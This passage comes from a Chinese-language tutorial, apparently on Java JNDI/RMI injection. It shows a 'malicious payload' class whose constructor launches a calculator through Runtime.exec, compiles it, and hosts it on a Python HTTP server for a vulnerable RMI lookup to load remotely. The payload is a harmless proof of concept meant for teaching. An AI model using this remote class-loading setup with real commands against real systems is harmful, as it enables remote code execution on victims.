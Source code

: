 HTTP 端恶意载荷（Calculator.java）代码

笔者使用的是 ubuntu 的环境，执行弹出计算器的命令为 `gnome-calculator`,若为Windwos 修改为 `calc` 即可

```plain
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("gnome-calculator");
    }
}
```

#### 启动服务

1、将 HTTP 端恶意载荷 Calculator.java，编译成 Calculator.class 文件

```plain
javac Calculator.java
```

[![](assets/1711556038-dfabad1f5a3b489a6f6ed1af421237ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194457-a6920942-bda6-1.png)

2、在 Calculator.class 目录下利用 Python 起一个临时的 WEB 服务放置恶意载荷,这里的端口必须要与 RMIServer.java 的 Reference 里面的链接端口一致  
[![](assets/1711556038-71c193358994a2283dddafab1f9b3442.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194511-aef8cb66-bda6-1.png)

python3 -m http.server 8081  
[![](assets/1711556038-285ea78c6f12e2b72474ff789d9238c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194526-b79a5906-bda6-1.png)
